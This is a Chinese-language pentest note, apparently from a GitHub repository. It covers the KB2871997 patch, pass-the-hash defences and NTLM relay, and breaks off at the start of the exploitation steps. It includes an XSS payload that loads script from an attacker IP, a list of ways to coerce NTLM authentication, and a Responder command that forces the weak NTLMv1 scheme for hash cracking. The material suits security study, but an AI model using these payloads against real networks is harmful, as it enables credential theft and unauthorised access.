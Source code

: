 ![1](pic/20191210.png)  
#### KB2871997
这个补丁并不能修复pass-the-hash攻击方式,只是使防御起来更加方便而已。  
1. 使Protectd Users组的成员强行使用kerberos身份认证。  
2. 用户注销后lsass中除了Wdigest不会再缓存用户凭据。  
可以通过修改`HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\SecurityProviders\WDigest\`的UseLogonCredential键值为决定是否在内存中存储凭证。  
3. 添加了两个父SID:本地账户(S-1-5-113),本地账户全部继承此SID,本地管理员组成员(S-1-5-114),管理员组的本地用户继承此SID。
将两个SID所在组在组策略中添加拒绝从网络访问这台计算机和拒绝通过远程桌面服务登录设置即可进行防御。但加入本地管理组的域内用户还是可以进行pth。
### ntlm relay
重放攻击:使目标向攻击者主动发起ntlm请求,然后获取到Net-ntlm-hash(含在response中)后使用该hash再向目标进行重放来进行服务认证,需要关闭SMB签名。  
**v1版本格式:**username::hostname:LM response:NTLM response:challenge  

**v2版本格式:**username::domain:challenge:HMAC-MD5:blob  

工具:Responder
![1](pic/20191215.png)  
#### 方式
- 图标
- xss `<script src="//172.16.100.1/x">`
- outlook
- PDF
- office
- mysql
- NBNS,LLMNR
- WPAD,MITM6
- XXE&SSRF
- 打印机
- ...  
[参考](https://www.anquanke.com/post/id/193493#h2-1)
#### 利用
##### 破解  
###### v1版本： 
1. 获取ntlmv1Response:(tips:使用`python Responder.py -I eth0 -wrfv --lm` v1有两种加密方式,可由客户端控制,使用--lm参数可以强制使用比较容易破解的算法)
